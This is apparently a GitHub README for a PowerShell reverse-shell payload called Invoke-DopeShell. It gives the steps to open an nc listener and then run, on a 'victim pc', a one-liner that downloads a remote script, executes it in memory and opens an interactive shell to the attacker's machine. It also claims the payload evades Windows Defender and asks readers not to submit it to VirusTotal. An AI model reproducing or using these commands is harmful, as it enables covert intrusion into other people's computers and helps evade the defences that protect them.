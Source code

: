 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">

# INSTRUCTIONS : - 
<br>
 <br> 
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
 <br> 
2.) Open powershell on the victim pc and type:-  <br> 
 <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/Invoke-DopeShell.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT". <br> Enter the IP ADDR and PORT of YOUR machine from where you are listening.

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 


# SCREENSHOTS:-
<br>
## Listener - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/listener.png.png">
<br>
## Spawned Connection without alerting Windows Defender -
<br>
<img scr="https://github.com/anonymous300502/powershell_payload/blob/main/spawned_interactive_shell.png.png">
<br>
## Victim Pc - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/victimpc.png.png">
<br>
